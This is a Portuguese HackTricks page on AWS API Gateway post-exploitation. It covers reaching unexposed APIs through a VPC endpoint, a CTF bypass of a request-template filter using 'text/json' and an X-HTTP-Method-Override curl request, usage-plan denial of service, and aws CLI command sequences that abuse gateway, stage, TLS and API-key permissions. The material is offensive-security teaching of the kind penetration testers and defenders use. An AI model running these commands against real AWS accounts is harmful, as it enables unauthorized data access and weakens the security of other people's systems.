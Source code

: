 # AWS - Pós-Exploração do API Gateway

<details>

<summary><strong>Aprenda hacking AWS do zero ao avançado com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## API Gateway

Para mais informações, consulte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acessar APIs não expostas

Você pode criar um endpoint em [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) com o serviço `com.amazonaws.us-east-1.execute-api`, expor o endpoint em uma rede onde você tenha acesso (potencialmente via uma máquina EC2) e atribuir um grupo de segurança permitindo todas as conexões.\
Em seguida, a partir da máquina EC2, você poderá acessar o endpoint e, portanto, chamar a API do gateway que não estava exposta anteriormente.

### Bypass do encaminhamento do corpo da solicitação

Essa técnica foi encontrada neste [**writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Conforme indicado na [**documentação da AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) na seção `PassthroughBehavior`, por padrão, o valor **`WHEN_NO_MATCH`** , ao verificar o cabeçalho **Content-Type** da solicitação, passará a solicitação para o back-end sem nenhuma transformação.

Portanto, no CTF, o API Gateway tinha um modelo de integração que estava **impedindo que a flag fosse exfiltrada** em uma resposta quando uma solicitação era enviada com `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

No entanto, enviar uma solicitação com **`Content-type: text/json`** evitaria esse filtro.&#x20;

Por fim, como o API Gateway estava permitindo apenas `Get` e `Options`, era possível enviar uma consulta arbitrária ao dynamoDB sem nenhum limite enviando uma solicitação POST com a consulta no corpo e usando o cabeçalho `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Planos de Uso DoS

Na seção de **Enumeração** você pode ver como **obter o plano de uso** das chaves. Se você tiver a chave e ela for **limitada** a X usos **por mês**, você poderia **simplesmente usá-la e causar um DoS**.

A **Chave da API** só precisa ser **incluída** dentro de um **cabeçalho HTTP** chamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` pode **modificar uma Resposta de Gateway existente para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações sensíveis ou executam scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado aos recursos da API.

{% hint style="info" %}
Necessidade de teste
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateStage` e `apigateway:CreateDeployment` pode **modificar um estágio existente da API Gateway para redirecionar o tráfego para um estágio diferente ou alterar as configurações de cache para obter acesso não autorizado aos dados em cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acesso não autorizado a dados em cache, interrupção ou interceptação do tráfego da API.

{% hint style="info" %}
Necessidade de teste
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` pode **modificar a resposta do método de um método existente da API Gateway REST para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações sensíveis ou executam scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado aos recursos da API.

{% hint style="info" %}
Necessidade de teste
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` pode **modificar as configurações da API Gateway REST API para desativar o registro ou alterar a versão mínima do TLS, potencialmente enfraquecendo a segurança da API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Enfraquecimento da segurança da API, potencialmente permitindo acesso não autorizado ou exposição de informações sensíveis.

{% hint style="info" %}
Necessidade de teste
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Um atacante com permissões `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` pode **criar novas chaves de API, associá-las a planos de uso e, em seguida, usar essas chaves para acesso não autorizado às APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acesso não autorizado aos recursos da API, contornando os controles de segurança.

{% hint style="info" %}
Necessita de teste
{% endhint %}

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
